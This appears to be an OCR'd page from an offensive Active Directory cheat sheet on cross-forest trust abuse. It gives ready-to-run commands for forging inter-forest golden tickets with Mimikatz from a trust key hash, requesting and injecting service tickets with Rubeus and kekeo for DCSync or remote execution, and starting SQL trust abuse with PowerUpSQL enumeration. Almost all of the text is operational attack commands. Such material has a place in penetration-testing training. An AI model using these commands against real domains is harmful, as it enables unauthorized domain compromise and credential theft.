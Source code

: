 #### Enumerate if SIDFilteringForestAware is enabled
- Run on the DC.
```
Get-ADTrust -Filter *
```

#### Enumerate groups of the target forest with SID higher then 1000
```
Get-ADGroup -Filter 'SID -ge "S-1-5-21-<DOMAIN SID PART>-1000"' -Server <TARGET FOREST>
```

#### Create a intern-forest TGT
```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DOMAIN> /sid:<DOMAIN SID> /rc4:<HASH OF TRUST KEY> /service:krbtgt /target:<TARGET FOREST> /sids<SID OF THE GROUP>  /ticket:<KIRBI FILE>"'
```

#### Create and inject TGS
- Possbible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
```
.\Rubeus.exe asktgs /ticket:<KIRBI FILE> /service:<SERVICE>/<TARGET SERVER> /dc:<TARGET FOREST DC> /ptt
```

#### Create a TGS for a service (kekeo_old)
- Possbible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
```
./asktgs.exe <KIRBI FILE> <SERVICE>/<TARGET SERVER>
```

#### Inject the TGS
```
./kirbikator.exe lsa <KIRBI FILE>
```

#### Use the TGS and execute DCsync or psremoting etc!

## Trust abuse SQL
- Could be possible cross domain or cross forest!
```
. .\PowerUpSQL.ps1
```
### Check connections
#### Discovery of SQL instances (SPN scanning)
```
Get-SQLInstanceDomain
```

#### Check accessibility to SQL servers
```
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded –Verbose
```
